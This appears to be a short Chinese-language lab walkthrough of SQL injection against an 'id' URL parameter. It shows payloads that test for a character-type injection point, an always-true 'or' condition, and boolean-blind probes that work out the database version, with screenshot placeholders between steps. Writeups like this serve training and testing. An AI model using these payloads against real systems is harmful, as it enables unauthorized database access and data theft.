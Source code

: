 先尝试确定注入点：

payload:?id=1

![](images/A323A80B77194186988800F35C2096AFclipboard.png)



payload:?id=1'

![](images/070A2C3D20274D1CA90FDB4235852C65clipboard.png)



此时可能存在字符型的注入。

payload:?id=-11'or'1'='1

![](images/EA3FFFA77F2946CAA9097B45DFF48D8Bclipboard.png)

和刚才的页面一样，说明蹴存在注入。



没有回显报错，只有两个页面，此时采用布尔盲注或时间盲注

payload:?id=1'and+left(version(),1)=5--+

![](images/8D7235C1C9A24B03B0ADD1534EA22359clipboard.png)

payload:?id=1'and+left(version(),1)=6--+

![](images/1D4B50325C4E4B4BA30B7A9B19B6E3CAclipboard.png)

此时说明数据库版本为5.几